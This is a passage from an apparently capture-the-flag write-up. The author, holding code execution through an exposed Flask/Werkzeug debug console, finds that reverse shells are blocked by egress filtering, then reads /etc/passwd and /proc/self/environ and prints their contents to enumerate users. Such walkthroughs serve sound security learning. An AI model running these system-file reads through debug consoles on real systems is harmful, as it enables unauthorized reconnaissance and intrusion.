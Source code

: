 Googling around, I found that an error code of 1 from ping means that the destination was unreachable. Therefore, I figured that there must be quite a bit of egress filtering enabled on the server using iptables that is preventing us from getting the callbacks of our reverse shells.

Well, we can execute commands at least! Let's see what users are on the system, by reading the /etc/passwd file: (formatted for easier reading)
```
>>> a = open("/etc/passwd", "r")
>>> a.read()
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
theplague:x:1000:1000:Eugene Belford:/home/theplague:/bin/bash
hal:x:1001:1001:,,,:/home/hal:/bin/bash
margo:x:1002:1002:,,,:/home/margo:/bin/bash
duke:x:1003:1003:,,,:/home/duke:/bin/bash
postfix:x:111:114::/var/spool/postfix:/usr/sbin/nologin\n'
```
Nice! Looks like we have 4 logon users (theplague, hal, margo, and duke), www-data for the webserver, and sshd for ssh. However, www-data is associated with nginx, not flask. Let's get /proc/self/environ to see our environment variables: (again formatted for easier reading)
```
>>> a = open("/proc/self/environ", "r")
>>> a.read()
LANG=en_US.UTF-8
INVOCATION_ID=7165cee80c8d4b498741ae4570093b6f
FLASK_DEBUG=1
USER=hal
PWD=/
HOME=/home/hal
JOURNAL_STREAM=9:28468
WERKZEUG_DEBUG_PIN=off
SHELL=/bin/bash
SHLVL=1
LOGNAME=hal
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/python3
WERKZEUG_SERVER_FD=3
WERKZEUG_RUN_MAIN=true
```